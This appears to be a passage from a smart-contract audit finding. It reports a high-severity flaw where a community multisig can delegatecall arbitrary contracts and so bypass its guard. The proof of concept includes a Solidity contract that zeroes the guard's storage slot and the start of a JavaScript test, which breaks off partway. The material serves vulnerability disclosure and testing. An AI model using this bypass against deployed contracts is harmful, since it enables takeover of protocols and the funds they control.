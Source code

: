 However, a critical oversight in the current implementation allows the CM to perform `delegatecall`s to any address but the timelock. As can be seen above, `DelegateCall` operations are only disallowed when the target is the timelock (represented by the `owner` variable). What this effectively means is that the CM cannot run any `Timelock` function in its own context, but it can `delegatecall` to any other contract and hence execute arbitrary code. This allows it to trivially bypass the guard by delegating to a contract that removes the guard variable from the CM's storage.

The CM holds all privileged roles within the timelock, which is in turn the protocol's owner. This means that the CM can potentially gain unrestricted control over the entire protocol. As such, this vulnerability represents a significant risk of privilege escalation and is classified as high severity.
### Proof of Concept

We can validate the vulnerability through an additional test case for the `GuardCM.js` test suite. This test case will simulate the exploit scenario and confirm the issue by performing the following actions:
1. It sets up the guard using the `setGuard` function with the appropriate parameters.
2. It attempts to execute an unauthorized call via delegatecall to the timelock, which should be reverted by the guard as expected.
3. It deploys an exploit contract, which contains a function to delete the guard storage.
4. It calls the `deleteGuardStorage` function through a delegatecall from the CM, which will remove the guard variable from the safe's storage.
5. It repeats the unauthorized call from step 2. This time, the call succeeds, indicating that the guard has been bypassed.

A simple exploit contract could look as follows:
```solidity
pragma solidity ^0.8.0;

contract DelegatecallExploitContract {
    bytes32 internal constant GUARD_STORAGE_SLOT = 0x4a204f620c8c5ccdca3fd54d003badd85ba500436a431f0cbda4f558c93c34c8;

    function deleteGuardStorage() public {
        assembly {
            sstore(GUARD_STORAGE_SLOT, 0)
        }
    }
}
```

And the test:
```javascript
        it("CM can remove guard through delegatecall", async function () {
            // Setting the CM guard
            let nonce = await multisig.nonce();
            let txHashData = await safeContracts.buildContractCall(multisig, "setGuard", [guard.address], nonce, 0, 0);
            let signMessageData = new Array();
            for (let i = 1; i <= safeThreshold; i++) {
                signMessageData.push(await safeContracts.safeSignMessage(signers[i], multisig, txHashData, 0));
            }
            await safeContracts.executeTx(multisig, txHashData, signMessageData, 0);

            // Attempt to execute an unauthorized call
            let payload = treasury.interface.encodeFunctionData("pause");
            nonce = await multisig.nonce();
            txHashData = await safeContracts.buildContractCall(timelock, "schedule", [treasury.address, 0, payload,
                Bytes32Zero, Bytes32Zero, 0], nonce, 0, 0);
            for (let i = 0; i < safeThreshold; i++) {
                signMessageData[i] = await safeContracts.safeSignMessage(signers[i+1], multisig, txHashData, 0);
            }
```